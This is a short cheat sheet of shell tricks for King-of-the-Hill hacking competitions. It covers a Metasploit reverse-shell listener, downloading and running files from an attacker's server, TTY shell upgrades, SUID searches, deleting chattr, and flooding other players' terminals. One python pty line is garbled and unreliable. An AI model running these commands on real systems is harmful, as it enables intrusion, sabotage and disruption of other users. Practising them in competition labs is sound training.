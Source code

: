                                                    <Tricks-For-All-Things>

# if you need (sure will) to install "chattr" on a machine here's a gift: 

```
https://github.com/Macchimne/Chattr-for-Koth
```

# if you want to create a simple web server in python (generally to download or install something from machine to machine): 

```
python3 -m http.server <port>
```

# if you need to see open ports:

```
netstat -anpt
```

# Download files using php:

```
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

```

```
# receive connections by metasploit:
```
```
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j
```

# if you need to install python without root:
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
```
```
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install
```

# a fully tty shell:

```
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color
```

# Search Suid's:
```
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &
```

# delete chattr:
```
rm -rf /usr/bin/chattr
  ```
# Find Flags:
find / -name flags

# Nyan-cat:
git clone https://github.com/klange/nyancat
cd nyancat/src
make
## Sending Nyancat to machine:
python -m SimpleHTTPServer 80 # on your local machine

wget http://yourip/nyancat # on the KOTH machine

chmod +x nyancat

./nyancat > /dev/pts/#  < here where is the # you will place the enemy PTS

# Breaking pts by sending spam from urandom
cat /dev/urandom > /dev/pts/#
